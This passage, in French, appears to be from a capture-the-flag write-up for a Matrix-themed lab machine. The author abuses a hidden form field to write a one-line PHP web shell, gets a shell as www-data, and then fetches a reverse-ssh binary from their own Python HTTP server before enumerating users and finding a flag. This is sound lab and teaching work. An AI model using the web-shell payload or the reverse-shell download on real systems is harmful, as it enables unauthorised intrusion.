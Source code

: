 J'aurais parié que le script fait un `include()` du fichier texte. J'ai donc saisi `<?php system($_GET["cmd"]); ?>` mais le code n'était pas interprété et se retrouvait dans le code HTML de la page.

Par contre je me suis apperçu que le formulaire dispose d'un champ caché qui spécifie dans quel fichier écrire les données :

```html
<form method="post">
<label>Message</label><div><input type="text" name="message"></div>
<input type="hidden" name="file" value="graffiti.txt">
<div><button type="submit">Post</button></div>
</form>
```

Par conséquent on peut utiliser les outils de développement du navigateur pour modifier le nom du fichier et cette fois écrire notre shell dans un nouveau fichier PHP. J'obtiens alors mon webshell avec l'utilisateur `www-data`.

Le serveur autorise la connexion sortante sur le port 80, j'utilise mon webshell pour télécharger un reverse-ssh depuis un serveur web python que j'ai lancé :

```shellsession
$ sudo python3 -m http.server 80
[sudo] Mot de passe de root : 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.242.129 - - [20/Nov/2022 09:16:17] "GET /reverse-sshx64 HTTP/1.1" 200 -
```

A la racine du serveur web je trouve une image `.cypher-neo.png` mais elle ne recèle rien d'intéressant (analyse via `exiftool` et `ghex`).

Il y a deux utilisateurs présents sur le système. Aucun ne semble plus privilégié que l'autre :

```
uid=1000(trinity) gid=1000(trinity) groups=1000(trinity),1002(humans)
uid=1001(cypher) gid=1001(cypher) groups=1001(cypher),1002(humans)
```

La recherche des fichiers de `cypher` retourne un flag :

```shellsession
www-data@morpheus:/var/www$ find / -user cypher 2> /dev/null 
/home/cypher
/FLAG.txt
```

Voici le contenu :

> Flag 1!  
> 
> You've gotten onto the system.  Now why has Cypher locked everyone out of it?  
> 
> Can you find a way to get Cypher's password? It seems like he gave it to    
> Agent Smith, so Smith could figure out where to meet him.  
> 
> Also, pull this image from the webserver on port 80 to get a flag.  
> 
> /.cypher-neo.png

